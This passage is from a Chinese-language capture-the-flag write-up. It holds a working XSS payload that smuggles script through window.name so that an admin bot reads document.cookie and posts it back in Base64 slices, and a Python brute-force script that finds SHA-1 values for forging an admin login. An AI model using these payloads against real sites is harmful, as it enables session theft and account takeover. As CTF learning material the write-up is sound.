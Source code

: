 其次我们可以在给 Bot 提交的 HTML 文件里打开提交页面，并指定窗口的 `name`。那么我们就可以把 XSS Payload 放在 `name` 里，并评论 `"+window["name"]+"`，这样就能执行任意代码了！

最后我们需要获取 flag，直接使用就好评论框提交就好，但是由于 flag 有点长，所以可能需要分多次提取，另外还需要绕开字符种类限制。

那么我们首先评论 `"+window["name"]+"`，然后提交以下 HTML：

```html
<script>window.open("http://web/result",`<img src="/" onerror="document.querySelector('form #comment').value=btoa(document.cookie).length;document.querySelector('form').submit()">`)</script>
```

就可以得到 Base64 编码后的 flag 长度。然后再 `"+window["name"]+"`，然后提交以下 HTML：

```html
<script>window.open("http://web/result",`<img src="/" onerror="document.querySelector('form #comment').value=btoa(document.cookie).slice(0,20);document.querySelector('form').submit()">`)</script>
```

就可以得到 Base64 编码后的 flag 的前 20 个字符，然后重复多次之后即可得到编码后的完整 flag。需要注意的是 JS 的 `decodeURIComponent` 无法给出正确的 flag，因为他不会像 Python 的 `urllib.parse.unquote_plus` 一样把 `+` 转换回空格。

## O(1) 用户登录系统

由于没有检查后面的 prove 的长度，所以如果管理员用户凭据 `admin` 和一个普通用户 `x` 的用户凭据满足 `sha1(admin)` 和 `sha1(x)` 组合之后依旧是一个合法的用户凭据 `new`，那么就可以把 `new` 和随便一个用户凭据 `a` 导入进来，就可以用 `admin` 和 `sha1(x)` 与 `sha1(a)` 组合的结果登陆管理员账号。

然而想要找到符合条件的 `admin` 和 `x` 较为困难，不过还好是可以接受的计算量，然而具体的要求比较难以推测。搜索的代码如下：

```py
from hashlib import sha1

# prefix=b"admin:"
# target_count=1

prefix=b"x:"
target_count=0

def check_usable(hash,target_count):
	count=0
	for b in hash:
		if b==ord('\r') or b==ord('\n') or b==ord('\x04') or b==ord('\x1c') or b>=0x80:
			return False
		if b==ord(':'):
			count+=1
	return count==target_count and hash.decode().encode() == hash

i=0

while True:
	if(check_usable(sha1(prefix+str(i).encode()).digest(),target_count)):
		print(prefix+str(i).encode())
		print(sha1(prefix+str(i).encode()).digest())
		break
	if i%1000000==0:
		print(i)
	i+=1
```

